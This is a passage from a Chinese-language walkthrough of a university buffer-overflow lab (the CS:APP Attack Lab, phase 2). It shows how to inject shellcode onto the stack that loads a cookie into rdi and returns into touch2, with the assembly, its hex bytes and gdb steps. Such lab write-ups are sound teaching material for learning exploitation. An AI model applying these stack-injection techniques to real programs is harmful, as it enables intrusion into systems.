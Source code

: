 执行：

```shell
hex2raw <attack1.txt >attack1raw.txt
ctarget -q -i attack1raw.txt
```

结果：

![image-20220807114205671](https://raw.githubusercontent.com/Abug0/Typora-Pics/master/pics/Typora20220807114205.png)

### CI(phase 2)

这次需要调用touch2，从源码可以看到，需要将cookie作为参数传递进去。

回忆一下，汇编中传递参数的方式：寄存器和栈，会依次使用rdi、rsi、rdx、rcx、r8、r9等寄存器传递参数，更多的参数会使用栈来进行传递。

那么此处传参只需要在调用touch2前将cookie放入寄存器rdi中即可。

所以此处需要做的是：

* 修改返回地址为touch2的地址
* 将cookie放入寄存器rdi

修改返回地址在Phase 1已经做过，只需覆盖即可，那么剩下的就是修改寄存器了。比较容易想到的两种操控寄存器的方法是编写汇编指令和利用已有指令，那么先整理一下目前的条件：

* 栈地址固定
* 栈可执行

于是想到可以直接注入代码到栈上，通过注入代码操控寄存器的值，如此只需将返回地址修改为注入代码的地址、然后在注入代码中跳转touch2即可。

写出注入代码：

```assembly
mov $0x59b997fa, %rdi	;cookie存入rdi
push $0x4017ec			;touch2指令的地址入栈, 通过ret跳转到touch2
ret						;跳转到touch2
```

编译这段代码，然后反汇编得到对应的十六进制表示：

```shell
[root@machine target1]# gcc attack.s -c
[root@machine target1]# objdump -d attack.o

attack.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
```

另外还需要得到注入代码的内存地址（即getbuf中的栈顶地址），以确定返回地址。

使用gdb进行调试，首先看一下反汇编得到的指令地址，要得到getbuf中的栈顶地址，我们可以在mov %rsp, %rdi指令处打断点，对应的指令地址为0x4017ac:
